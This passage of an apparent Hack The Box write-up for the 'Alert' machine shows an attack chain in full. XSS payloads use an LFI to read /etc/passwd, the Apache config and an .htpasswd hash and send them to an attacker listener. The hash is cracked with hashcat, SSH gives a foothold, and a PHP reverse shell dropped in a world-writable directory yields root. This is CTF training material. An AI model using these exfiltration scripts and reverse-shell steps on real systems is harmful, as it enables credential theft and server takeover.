10.129.27.137 - - [23/Nov/2024 22:18:07] "GET /?data=%3Cpre%3Eroot%3Ax%3A0%3A0%3Aroot%3A%2Froot%3A%2Fbin%2Fbash%0Adaemon%3Ax%3A1%3A1%3Adaemon%3A%2Fusr%2Fsbin%3A%2Fusr%2Fsbin%2Fnologin%0Abin%3Ax%3A2%3A2%3Abin%3A%2Fbin%3A%2Fusr%2Fsbin%2Fnologin%0Asys%3Ax%3A3%3A3%3Asys%3A%2Fdev%3A%2Fusr%2Fsbin%2Fnologin%0Async%3Ax%3A4%3A65534%3Async%3A%2Fbin%3A%2Fbin%2Fsync%0Agames%3Ax%3A5%3A60%3Agames%3A%2Fusr%2Fgames%3A%2Fusr%2Fsbin%2Fnologin%0Aman%3Ax%3A6%3A12%3Aman%3A%2Fvar%2Fcache%2Fman%3A%2Fusr%2Fsbin%2Fnologin%0Alp%3Ax%3A7%3A7%3Alp%3A%2Fvar%2Fspool%2Flpd%3A%2Fusr%2Fsbin%2Fnologin%0Amail%3Ax%3A8%3A8%3Amail%3A%2Fvar%2Fmail%3A%2Fusr%2Fsbin%2Fnologin%0Anews%3Ax%3A9%3A9%3Anews%3A%2Fvar%2Fspool%2Fnews%3A%2Fusr%2Fsbin%2Fnologin%0Auucp%3Ax%3A10%3A10%3Auucp%3A%2Fvar%2Fspool%2Fuucp%3A%2Fusr%2Fsbin%2Fnologin%0Aproxy%3Ax%3A13%3A13%3Aproxy%3A%2Fbin%3A%2Fusr%2Fsbin%2Fnologin%0Awww-data%3Ax%3A33%3A33%3Awww-data%3A%2Fvar%2Fwww%3A%2Fusr%2Fsbin%2Fnologin%0Abackup%3Ax%3A34%3A34%3Abackup%3A%2Fvar%2Fbackups%3A%2Fusr%2Fsbin%2Fnologin%0Alist%3Ax%3A38%3A38%3AMailing%20List%20Manager%3A%2Fvar%2Flist%3A%2Fusr%2Fsbin%2Fnologin%0Airc%3Ax%3A39%3A39%3Aircd%3A%2Fvar%2Frun%2Fircd%3A%2Fusr%2Fsbin%2Fnologin%0Agnats%3Ax%3A41%3A41%3AGnats%20Bug-Reporting%20System%20(admin)%3A%2Fvar%2Flib%2Fgnats%3A%2Fusr%2Fsbin%2Fnologin%0Anobody%3Ax%3A65534%3A65534%3Anobody%3A%2Fnonexistent%3A%2Fusr%2Fsbin%2Fnologin%0Asystemd-network%3Ax%3A100%3A102%3Asystemd%20Network%20Management%2C%2C%2C%3A%2Frun%2Fsystemd%3A%2Fusr%2Fsbin%2Fnologin%0Asystemd-resolve%3Ax%3A101%3A103%3Asystemd%20Resolver%2C%2C%2C%3A%2Frun%2Fsystemd%3A%2Fusr%2Fsbin%2Fnologin%0Asystemd-timesync%3Ax%3A102%3A104%3Asystemd%20Time%20Synchronization%2C%2C%2C%3A%2Frun%2Fsystemd%3A%2Fusr%2Fsbin%2Fnologin%0Amessagebus%3Ax%3A103%3A106%3A%3A%2Fnonexistent%3A%2Fusr%2Fsbin%2Fnologin%0Asyslog%3Ax%3A104%3A110%3A%3A%2Fhome%2Fsyslog%3A%2Fusr%2Fsbin%2Fnologin%0A_apt%3Ax%3A105%3A65534%3A%3A%2Fnonexistent%3A%2Fusr%2Fsbin%2Fnologin%0Atss%3Ax%3A106%3A111%3ATPM%20software%20stack%2C%2C%2C%3A%2Fvar%2Flib%2Ftpm%3A%2Fbin%2Ffalse%0Auuidd%3Ax%3A107%3A112%3A%3A%2Frun%2Fuuidd%3A%2Fusr%2Fsbin%2Fnologin%0Atcpdump%3Ax%3A108%3A113%3A%3A%2Fnonexistent%3A%2Fusr%2Fsbin%2Fnologin%0Alandscape%3Ax%3A109%3A115%3A%3A%2Fvar%2Flib%2Flandscape%3A%2Fusr%2Fsbin%2Fnologin%0Apollinate%3Ax%3A110%3A1%3A%3A%2Fvar%2Fcache%2Fpollinate%3A%2Fbin%2Ffalse%0Afwupd-refresh%3Ax%3A111%3A116%3Afwupd-refresh%20user%2C%2C%2C%3A%2Frun%2Fsystemd%3A%2Fusr%2Fsbin%2Fnologin%0Ausbmux%3Ax%3A112%3A46%3Ausbmux%20daemon%2C%2C%2C%3A%2Fvar%2Flib%2Fusbmux%3A%2Fusr%2Fsbin%2Fnologin%0Asshd%3Ax%3A113%3A65534%3A%3A%2Frun%2Fsshd%3A%2Fusr%2Fsbin%2Fnologin%0Asystemd-coredump%3Ax%3A999%3A999%3Asystemd%20Core%20Dumper%3A%2F%3A%2Fusr%2Fsbin%2Fnologin%0Aalbert%3Ax%3A1000%3A1000%3Aalbert%3A%2Fhome%2Falbert%3A%2Fbin%2Fbash%0Alxd%3Ax%3A998%3A100%3A%3A%2Fvar%2Fsnap%2Flxd%2Fcommon%2Flxd%3A%2Fbin%2Ffalse%0Adavid%3Ax%3A1001%3A1002%3A%2C%2C%2C%3A%2Fhome%2Fdavid%3A%2Fbin%2Fbash%0A%3C%2Fpre%3E%0A HTTP/1.1" 501 -
```

And indeed it contained the `/etc/passwd` from the box which gave us two `usernames`.

```c
<pre></pre>
<pre>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
albert:x:1000:1000:albert:/home/albert:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
david:x:1001:1002:,,,:/home/david:/bin/bash
</pre>
```

| Username |
| -------- |
| albert   |
| david    |

First we checked their `home directories` for potential `SSH Keys` but got no luck. Then we took a look at the `Apache2` configuration and tried to read the `000-default.conf` inside `sites-enabled`.

```c
<script>
fetch('http://alert.htb/messages.php?file=../../../../../etc/apache2/sites-enabled/000-default.conf', { credentials: 'include' }) // Fetch the target page
    .then(response => response.text()) // Convert the response to text
    .then(data => {
        // Send the content via a GET request
        fetch('http://10.10.14.86:8000/?data=' + encodeURIComponent(data));
    });
</script>
```

As before we just repeated the steps to get the content of the file.

```c
10.10.14.86 - - [23/Nov/2024 22:22:42] code 501, message Unsupported method ('GET')                                                                                                                                                         
10.10.14.86 - - [23/Nov/2024 22:22:42] "GET /?data=%0A HTTP/1.1" 501 -                                                                                                                                                                      
10.10.14.86 - - [23/Nov/2024 22:22:43] code 501, message Unsupported method ('GET')                                                                                                                                                         
10.10.14.86 - - [23/Nov/2024 22:22:43] "GET /?data=%0A HTTP/1.1" 501 -                                                                                                                                                                      
10.129.27.137 - - [23/Nov/2024 22:22:54] code 501, message Unsupported method ('GET')                                                                                                                                                       
10.129.27.137 - - [23/Nov/2024 22:22:54] "GET /?data=%3Cpre%3E%3CVirtualHost%20*%3A80%3E%0A%20%20%20%20ServerName%20alert.htb%0A%0A%20%20%20%20DocumentRoot%20%2Fvar%2Fwww%2Falert.htb%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Falert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20RewriteEngine%20On%0A%20%20%20%20RewriteCond%20%25%7BHTTP_HOST%7D%20!%5Ealert%5C.htb%24%0A%20%20%20%20RewriteCond%20%25%7BHTTP_HOST%7D%20!%5E%24%0A%20%20%20%20RewriteRule%20%5E%2F%3F(.*)%24%20http%3A%2F%2Falert.htb%2F%241%20%5BR%3D301%2CL%5D%0A%0A%20%20%20%20ErrorLog%20%24%7BAPACHE_LOG_DIR%7D%2Ferror.log%0A%20%20%20%20CustomLog%20%24%7BAPACHE_LOG_DIR%7D%2Faccess.log%20combined%0A%3C%2FVirtualHost%3E%0A%0A%3CVirtualHost%20*%3A80%3E%0A%20%20%20%20ServerName%20statistics.alert.htb%0A%0A%20%20%20%20DocumentRoot%20%2Fvar%2Fwww%2Fstatistics.alert.htb%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Fstatistics.alert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Fstatistics.alert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20Indexes%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%20%20%20%20AuthType%20Basic%0A%20%20%20%20%20%20%20%20AuthName%20%22Restricted%20Area%22%0A%20%20%20%20%20%20%20%20AuthUserFile%20%2Fvar%2Fwww%2Fstatistics.alert.htb%2F.htpasswd%0A%20%20%20%20%20%20%20%20Require%20valid-user%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20ErrorLog%20%24%7BAPACHE_LOG_DIR%7D%2Ferror.log%0A%20%20%20%20CustomLog%20%24%7BAPACHE_LOG_DIR%7D%2Faccess.log%20combined%0A%3C%2FVirtualHost%3E%0A%0A%3C%2Fpre%3E%0A HTTP/1.1" 501 -
10.129.27.137 - - [23/Nov/2024 22:22:57] code 501, message Unsupported method ('GET')
10.129.27.137 - - [23/Nov/2024 22:22:57] "GET /?data=%3Cpre%3E%3CVirtualHost%20*%3A80%3E%0A%20%20%20%20ServerName%20alert.htb%0A%0A%20%20%20%20DocumentRoot%20%2Fvar%2Fwww%2Falert.htb%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Falert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20RewriteEngine%20On%0A%20%20%20%20RewriteCond%20%25%7BHTTP_HOST%7D%20!%5Ealert%5C.htb%24%0A%20%20%20%20RewriteCond%20%25%7BHTTP_HOST%7D%20!%5E%24%0A%20%20%20%20RewriteRule%20%5E%2F%3F(.*)%24%20http%3A%2F%2Falert.htb%2F%241%20%5BR%3D301%2CL%5D%0A%0A%20%20%20%20ErrorLog%20%24%7BAPACHE_LOG_DIR%7D%2Ferror.log%0A%20%20%20%20CustomLog%20%24%7BAPACHE_LOG_DIR%7D%2Faccess.log%20combined%0A%3C%2FVirtualHost%3E%0A%0A%3CVirtualHost%20*%3A80%3E%0A%20%20%20%20ServerName%20statistics.alert.htb%0A%0A%20%20%20%20DocumentRoot%20%2Fvar%2Fwww%2Fstatistics.alert.htb%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Fstatistics.alert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20%3CDirectory%20%2Fvar%2Fwww%2Fstatistics.alert.htb%3E%0A%20%20%20%20%20%20%20%20Options%20Indexes%20FollowSymLinks%20MultiViews%0A%20%20%20%20%20%20%20%20AllowOverride%20All%0A%20%20%20%20%20%20%20%20AuthType%20Basic%0A%20%20%20%20%20%20%20%20AuthName%20%22Restricted%20Area%22%0A%20%20%20%20%20%20%20%20AuthUserFile%20%2Fvar%2Fwww%2Fstatistics.alert.htb%2F.htpasswd%0A%20%20%20%20%20%20%20%20Require%20valid-user%0A%20%20%20%20%3C%2FDirectory%3E%0A%0A%20%20%20%20ErrorLog%20%24%7BAPACHE_LOG_DIR%7D%2Ferror.log%0A%20%20%20%20CustomLog%20%24%7BAPACHE_LOG_DIR%7D%2Faccess.log%20combined%0A%3C%2FVirtualHost%3E%0A%0A%3C%2Fpre%3E%0A HTTP/1.1" 501 -
```

This time we found a `subdomain` and the hint that there was a `htpasswd` existing which could contain a `hash`.

```c
10.129.27.137 - - [23/Nov/2024 22:22:54] "GET /?data=<pre><VirtualHost *:80>
    ServerName alert.htb

    DocumentRoot /var/www/alert.htb

    <Directory /var/www/alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    RewriteEngine On
    RewriteCond %{HTTP_HOST} !^alert\.htb$
    RewriteCond %{HTTP_HOST} !^$
    RewriteRule ^/?(.*)$ http://alert.htb/$1 [R=301,L]

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

<VirtualHost *:80>
    ServerName statistics.alert.htb

    DocumentRoot /var/www/statistics.alert.htb

    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

</pre>
 HTTP/1.1" 501 -
10.129.27.137 - - [23/Nov/2024 22:22:57] code 501, message Unsupported method ('GET')
10.129.27.137 - - [23/Nov/2024 22:22:57] "GET /?data=<pre><VirtualHost *:80>
    ServerName alert.htb

    DocumentRoot /var/www/alert.htb

    <Directory /var/www/alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    RewriteEngine On
    RewriteCond %{HTTP_HOST} !^alert\.htb$
    RewriteCond %{HTTP_HOST} !^$
    RewriteRule ^/?(.*)$ http://alert.htb/$1 [R=301,L]

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

<VirtualHost *:80>
    ServerName statistics.alert.htb

    DocumentRoot /var/www/statistics.alert.htb

    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

</pre>
 HTTP/1.1" 501 -
```

## Foothold

Since the `subdomain` required credentials which we didn't had at this point, we tried to read the file directly though the `Local File Inclusion (LFI)` vulnerability.

```c
<script>
fetch('http://alert.htb/messages.php?file=../../../../../var/www/statistics.alert.htb/.htpasswd', { credentials: 'include' }) // Fetch the target page
    .then(response => response.text()) // Convert the response to text
    .then(data => {
        // Send the content via a GET request
        fetch('http://10.10.14.86:8000/?data=' + encodeURIComponent(data));
    });
</script>
```

```c
10.10.14.86 - - [23/Nov/2024 22:26:53] code 501, message Unsupported method ('GET')
10.10.14.86 - - [23/Nov/2024 22:26:53] "GET /?data=%0A HTTP/1.1" 501 -
10.10.14.86 - - [23/Nov/2024 22:26:54] code 501, message Unsupported method ('GET')
10.10.14.86 - - [23/Nov/2024 22:26:54] "GET /?data=%0A HTTP/1.1" 501 -
10.129.27.137 - - [23/Nov/2024 22:26:59] code 501, message Unsupported method ('GET')
10.129.27.137 - - [23/Nov/2024 22:26:59] "GET /?data=%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A HTTP/1.1" 501 -
```

And luckily we received a `hash`!

```c
<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
</pre>
```

### Cracking the Hash

We threw the `hash` into a file and cracked it using `mode 1600` within `hashcat` to retrieve the `password` for `albert`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Alert/files]
└─$ cat hash 
$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Alert/files]
└─$ hashcat -m 1600 -a 0 hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i9-10900 CPU @ 2.80GHz, 2917/5899 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/:manchesterunited    
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR))
Hash.Target......: $apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
Time.Started.....: Sat Nov 23 22:30:15 2024 (0 secs)
Time.Estimated...: Sat Nov 23 22:30:15 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    15744 H/s (7.38ms) @ Accel:32 Loops:1000 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2816/14344385 (0.02%)
Rejected.........: 0/2816 (0.00%)
Restore.Point....: 2688/14344385 (0.02%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1000
Candidate.Engine.: Device Generator
Candidates.#1....: my3kids -> medicina
Hardware.Mon.#1..: Util: 27%

Started: Sat Nov 23 22:29:56 2024
Stopped: Sat Nov 23 22:30:16 2024
```

| Username | Password         |
| -------- | ---------------- |
| albert   | manchesterunited |

```c
┌──(kali㉿kali)-[~]
└─$ ssh albert@alert.htb
The authenticity of host 'alert.htb (10.129.27.137)' can't be established.
ED25519 key fingerprint is SHA256:p09n9xG9WD+h2tXiZ8yi4bbPrvHxCCOpBLSw0o76zOs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes             
Warning: Permanently added 'alert.htb' (ED25519) to the list of known hosts.
albert@alert.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-200-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat 23 Nov 2024 09:31:36 PM UTC

  System load:           0.0
  Usage of /:            63.1% of 5.03GB
  Memory usage:          10%
  Swap usage:            0%
  Processes:             245
  Users logged in:       0
  IPv4 address for eth0: 10.129.27.137
  IPv6 address for eth0: dead:beef::250:56ff:fe94:c68f


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


Last login: Tue Nov 19 14:19:09 2024 from 10.10.14.23
albert@alert:~$
```

## user.txt

We grabbed the `user.txt` and proceeded with the `enumeration` as `albert`.

```c
albert@alert:~$ cat user.txt 
e010e796ac531888663cb76fc8d24ae6
```

## Enumeration

Checking the usual stuff like `group permissions`, `sudo capabilities` and content of the `home directory` didn't brought up anything useful.

```c
albert@alert:~$ id
uid=1000(albert) gid=1000(albert) groups=1000(albert),1001(management)
```

```c
albert@alert:~$ sudo -l
[sudo] password for albert: 
Sorry, user albert may not run sudo on alert.
```

```c
albert@alert:~$ ls -la
total 28
drwxr-x--- 3 albert albert 4096 Nov 19 14:19 .
drwxr-xr-x 4 root   root   4096 Oct 12 02:21 ..
lrwxrwxrwx 1 albert albert    9 Mar 16  2024 .bash_history -> /dev/null
-rw-r--r-- 1 albert albert  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 albert albert 3771 Feb 25  2020 .bashrc
drwx------ 2 albert albert 4096 Mar  8  2024 .cache
-rw-r--r-- 1 albert albert  807 Feb 25  2020 .profile
-rw-r----- 1 root   albert   33 Nov 23 19:02 user.txt
```

Next we checked the `locally available ports` and found a `web server` running on port `8080/TCP`.

```c
albert@alert:~$ ss -tulpn
Netid                   State                    Recv-Q                   Send-Q                                     Local Address:Port                                       Peer Address:Port                   Process                   
udp                     UNCONN                   0                        0                                          127.0.0.53%lo:53                                              0.0.0.0:*                                                
udp                     UNCONN                   0                        0                                                0.0.0.0:68                                              0.0.0.0:*                                                
tcp                     LISTEN                   0                        4096                                           127.0.0.1:8080                                            0.0.0.0:*                                                
tcp                     LISTEN                   0                        4096                                       127.0.0.53%lo:53                                              0.0.0.0:*                                                
tcp                     LISTEN                   0                        128                                              0.0.0.0:22                                              0.0.0.0:*                                                
tcp                     LISTEN                   0                        511                                                    *:80                                                    *:*                                                
tcp                     LISTEN                   0                        128                                                 [::]:22                                                 [::]:*
```

```c
albert@alert:~$ curl 127.0.0.1:8080
<!DOCTYPE html>
<html lang="en">
<head>
<title>Website Monitor</title>
<meta charset="utf-8">
<meta name="theme-color" content="#212529">
<meta name="viewport" content="width=device-width, initial-scale=1">
<link href="style.css" rel="stylesheet">
<script src="https://cdn.jsdelivr.net/npm/chart.js@3.8.2/dist/chart.min.js" crossorigin="anonymous"></script>
</head>
<body>
<--- CUT FOR BREVITY --->
```

Since this was kinda odd we checked the process for it and noticed that it was a `PHP web server` running as `root` using the `-S` parameter. So the path for `privilege escalation` to `root` was clear.

```c
albert@alert:~$ ps -auxf
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
<--- CUT FOR BREVITY --->
root         981  0.0  0.6 207012 26536 ?        Ss   19:01   0:00 /usr/bin/php -S 127.0.0.1:8080 -t /opt/website-monitor
<--- CUT FOR BREVITY --->
```

```c
albert@alert:/opt$ ls -la
total 16
drwxr-xr-x  4 root root 4096 Oct 12 00:58 .
drwxr-xr-x 18 root root 4096 Nov 14 10:55 ..
drwxr-xr-x  3 root root 4096 Mar  8  2024 google
drwxrwxr-x  7 root root 4096 Oct 12 01:07 website-monitor
```

## Privilege Escalation to root

Next we checked our `permissions` within the directory `website-monitor` in `/opt`. It seemed that we could write into the `monitors directory`.

```c
albert@alert:/opt/website-monitor$ ls -la
total 96
drwxrwxr-x 7 root root        4096 Oct 12 01:07 .
drwxr-xr-x 4 root root        4096 Oct 12 00:58 ..
drwxrwxr-x 2 root management  4096 Oct 12 04:17 config
drwxrwxr-x 8 root root        4096 Oct 12 00:58 .git
drwxrwxr-x 2 root root        4096 Oct 12 00:58 incidents
-rwxrwxr-x 1 root root        5323 Oct 12 01:00 index.php
-rwxrwxr-x 1 root root        1068 Oct 12 00:58 LICENSE
-rwxrwxr-x 1 root root        1452 Oct 12 01:00 monitor.php
drwxrwxrwx 2 root root        4096 Oct 12 01:07 monitors
-rwxrwxr-x 1 root root         104 Oct 12 01:07 monitors.json
-rwxrwxr-x 1 root root       40849 Oct 12 00:58 Parsedown.php
-rwxrwxr-x 1 root root        1657 Oct 12 00:58 README.md
-rwxrwxr-x 1 root root        1918 Oct 12 00:58 style.css
drwxrwxr-x 2 root root        4096 Oct 12 00:58 updates
```

We grabbed a `PHP reverse shell` from my buddy `Ivan Sincek`, modified it to our needs and dropped it right into the folder.

- [https://github.com/ivan-sincek/php-reverse-shell](https://github.com/ivan-sincek/php-reverse-shell)

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Alert/serve]
└─$ wget https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/refs/heads/master/src/reverse/php_reverse_shell.php
--2024-11-23 22:37:35--  https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/refs/heads/master/src/reverse/php_reverse_shell.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.108.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9403 (9.2K) [text/plain]
Saving to: ‘php_reverse_shell.php’

php_reverse_shell.php                                      100%[========================================================================================================================================>]   9.18K  --.-KB/s    in 0.001s  

2024-11-23 22:37:35 (6.70 MB/s) - ‘php_reverse_shell.php’ saved [9403/9403]
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Alert/serve]
└─$ tail php_reverse_shell.php 
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('10.10.14.86', 9000);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>
```

```c
albert@alert:/opt/website-monitor/monitors$ wget http://10.10.14.86/php_reverse_shell.php
--2024-11-23 21:41:26--  http://10.10.14.86/php_reverse_shell.php
Connecting to 10.10.14.86:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9405 (9.2K) [application/octet-stream]
Saving to: ‘php_reverse_shell.php’

php_reverse_shell.php                                      100%[========================================================================================================================================>]   9.18K  --.-KB/s    in 0s      

2024-11-23 21:41:26 (149 MB/s) - ‘php_reverse_shell.php’ saved [9405/9405]
```

Then we `forwarded` port `8080/TCP` to port `8081/TCP` locally. Since `BurpSuite` was still open we modified the port but usually there is no need to do so.

```c
┌──(kali㉿kali)-[~]
└─$ ssh -L 8081:127.0.0.1:8080 albert@alert.htb
albert@alert.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-200-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat 23 Nov 2024 09:39:08 PM UTC

  System load:           0.0
  Usage of /:            63.1% of 5.03GB
  Memory usage:          10%
  Swap usage:            0%
  Processes:             235
  Users logged in:       1
  IPv4 address for eth0: 10.129.27.137
  IPv6 address for eth0: dead:beef::250:56ff:fe94:c68f


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Nov 23 21:31:37 2024 from 10.10.14.86
albert@alert:~$
```

We accessed the website and executed our `payload` to receive the `callback` as `root`.



```c
http://127.0.0.1:8081/monitors/php_reverse_shell.php
```



```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9000
listening on [any] 9000 ...
connect to [10.10.14.86] from (UNKNOWN) [10.129.27.137] 36354
SOCKET: Shell has connected! PID: 7214
id
uid=0(root) gid=0(root) groups=0(root)
```

## root.txt

```c
cat root.txt
86a49adb74e6e5ebb79d594047d797fa
```
